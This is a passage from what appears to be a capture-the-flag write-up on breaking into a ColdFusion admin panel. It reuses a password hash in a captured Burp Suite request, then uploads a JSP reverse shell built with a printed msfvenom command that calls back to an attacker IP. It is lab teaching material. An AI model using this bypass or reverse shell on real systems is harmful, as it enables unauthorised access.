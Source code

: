 I used burp suite to capture a random login attempt of the page and replaced the value of `cfadminPassword` with the hash we got from our console log. This will send our rehashed value to the server and it will get hashed again making it the identical value of the server-side hash and it will perform a hash-collision attack. In this, we do not know the plaintext password and we will never know it but we will still get access to the admin dashboard.

### Exploiting - breaking boundaries

After getting access to the admin dashboard, I wander around the website to find something weird and my attention goes around a file upload form. Trust me, file uploads are always dumb, so I researched a bit and found it accepts `jsp` files. Well, as the dora the explorer might say, *Can you find a way in?*

#### Manual GUI way - for those who love graphics

![](images-artic/12.png)

**Command:**
`msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.12 LPORT=4444 > zerox30.jsp`

**Understanding the command:**
- `-p` - Specifying the payload type
- `LHOST` - Local host, which is mostly an attacker machine (our IP)
- `LPORT` - Any local port you like to use.

We first create a jsp reverse shell, you can use reverse shells from the Internet, but I will go for metasploit payload section. We need this because we will upload jsp reverse shell and get a user level access.
